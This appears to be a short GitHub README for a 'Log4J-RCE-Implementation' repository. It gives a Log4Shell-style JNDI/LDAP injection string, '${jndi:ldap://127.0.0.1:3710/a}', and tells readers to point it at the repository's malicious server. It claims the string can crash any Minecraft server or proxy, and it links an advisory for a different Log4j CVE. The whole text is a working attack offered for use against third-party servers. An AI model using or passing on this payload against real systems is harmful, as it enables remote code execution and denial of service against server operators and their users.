 # Log4J-RCE-Implementation

Basically run this (replacing the ip and port to the server in this repo):
${jndi:ldap://127.0.0.1:3710/a}


For now, this is capable of crashing any MC server or proxy



https://github.com/pimps/CVE-2017-5645/blob/master/log4j%20advisory.txt
